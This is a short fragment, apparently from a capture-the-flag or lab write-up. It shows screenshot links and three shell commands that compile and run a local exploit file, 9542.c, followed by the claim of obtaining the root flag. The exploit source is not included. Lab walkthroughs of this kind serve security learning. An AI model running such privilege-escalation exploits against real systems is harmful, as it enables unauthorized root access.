 <img src="../img/Pasted image 20240530173855.png" alt="Example Image" width="1080"/>

```
chmod 700 9542.c
gcc -o exploit 9542.c
./exploit
```

<img src="../img/Pasted image 20240530174112.png" alt="Example Image" width="1080"/>
We got the root flag
